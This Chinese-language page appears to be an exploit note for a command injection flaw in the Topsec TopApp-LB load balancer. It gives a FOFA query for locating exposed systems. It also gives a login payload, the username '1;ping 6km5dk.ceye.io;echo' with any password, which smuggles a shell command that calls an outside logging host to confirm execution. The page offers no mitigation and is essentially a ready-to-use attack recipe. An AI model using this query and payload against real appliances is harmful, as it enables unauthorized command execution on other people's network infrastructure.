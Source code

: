 # 天融信负载均衡TopApp-LB命令执行漏洞

## 漏洞描述

天融信负载均衡TopApp-LB系统存在任意命令执行

## 影响版本

天融信负载均衡TopApp-LB

## FOFA

> [!NOTE]
>
> app="天融信-TopApp-LB-负载均衡系统"

## 漏洞复现

登录界面中存在命令执行

账号:**1;ping 6km5dk.ceye.io;echo**

密码:**任意**

![](天融信负载均衡TopApp-LB命令执行漏洞.assets/1627363100819823.jpg)

成功收到请求

![](天融信负载均衡TopApp-LB命令执行漏洞.assets/1627363101005145.jpg)